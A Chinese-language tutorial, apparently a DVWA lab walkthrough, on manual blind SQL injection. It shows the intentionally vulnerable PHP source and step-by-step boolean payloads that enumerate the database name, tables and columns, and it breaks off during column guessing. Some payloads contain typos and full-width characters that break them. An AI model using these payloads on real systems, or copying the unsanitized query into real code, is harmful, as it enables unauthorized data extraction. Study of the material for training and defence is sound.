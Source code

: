 # SQL盲注
## 漏洞描述
与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。
## 手工盲注过程
1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解当前数据库名
3. 猜解数据库中的表名
4. 猜解表中的字段名
5. 猜解数据
#
手工盲注就相当于你再询问一个人问题，而这个人只会说是或者不是，因此在询问的过程中这样询问，数据库名字的第一字母是不是a？通过这种询问从而一点一点将数据库的名字获取。
## 漏洞利用
## Low SQL Injection (Blind) Source
```
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
从代码中可看出结果只会显示存在或者不存在。
- 存在
![image](https://user-images.githubusercontent.com/71583369/144703086-ac33bad2-f36b-4952-b5a5-617fd5db3c46.png)
- 不存在
![image](https://user-images.githubusercontent.com/71583369/144703097-03877ec4-8711-4232-9f83-d60574754638.png)
1. 判断是否存在注入，判断是字符型还是数字型注入
- 输入`1' and 1=1#`显示存在，输入`1' and 1=2#`显示不存在，判断为字符型注入
2. 猜解数据库名字，使用`length()`判断长度，构造`1' and length(database())=4#`,在不知道长度的情况下可以使用burp进行爆破
- 抓取数据包发送到爆破模块，长度的位置添加变量
![image](https://user-images.githubusercontent.com/71583369/144705355-8a77e260-3246-4cab-8efd-bfadc7290919.png)
- 查看爆破结果，数据库长度为4
![image](https://user-images.githubusercontent.com/71583369/144705266-dd7641f9-354e-44cd-99ce-ac0df26dcc60.png)
- 判断数据库名的第一个字母，构造`1’ and ascii(substr(databse(),1,1))＝100 #`使用ascii值进行判断，然后再对照ascii表判断对应的字母
- 函数用法：`substr(string string,num start,num length);`
- 大写字母A~Z对应的ASCII码（十进制）为“65”~“90”
- 小写字母a~z对应的百ASCII码（十进制）为"97"~“122”
#
- 这里可以看住最小的值为65，最大值为122，我们构造一个数字的字典从65到122。
![image](https://user-images.githubusercontent.com/71583369/144706626-10208ad6-4e9a-4e31-ad12-0a029b34b978.png)
- 可以看到100的时候与其他的长度不一样，100对应的是d，可以判断第一个字母为d
![image](https://user-images.githubusercontent.com/71583369/144706481-9b7ea7d5-6d98-432a-a19c-f32ff2c362fc.png)
- 判断第二字符，只需要修改为`1’ and ascii(substr(database(),2,1))＝100 #`即可，后面的以此类推，分别取不同的位置，爆出数据库名为dvwa。
3. 猜解表名
- 判断数据库中有几个表，构造`1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 #`
![image](https://user-images.githubusercontent.com/71583369/144706910-7bc6433e-9cb5-468e-afe0-53e646de0980.png)
#
- 说明有两张表，判断第一张表的长度`1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # `
![image](https://user-images.githubusercontent.com/71583369/144707338-e8f14150-899f-4592-a07f-3e59f783f26c.png)
#
- 说明长度为9
- 判断第一个字母，构造`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))＝103 #`
![image](https://user-images.githubusercontent.com/71583369/144707480-8ba0e7d5-56e9-49f0-b9da-585a00ab6548.png)
#
- 判断第一个字母为g，以此类推，第一个表为guestbook
- 判断第二张表长度，构造`1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=5 #`
- 判断第一个字母，构造`1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117 #`
- 第二张表名为users
4. 猜字段名
- 猜字段数`1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # `,为8个字段
![image](https://user-images.githubusercontent.com/71583369/144708090-e719b6b7-b8e4-483f-a95d-ad763e08003c.png)
- 第一个字段长度`1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7 #`,长度为7
![image](https://user-images.githubusercontent.com/71583369/144708264-f649c9ef-7eac-4eae-9986-aa954362bc78.png)


















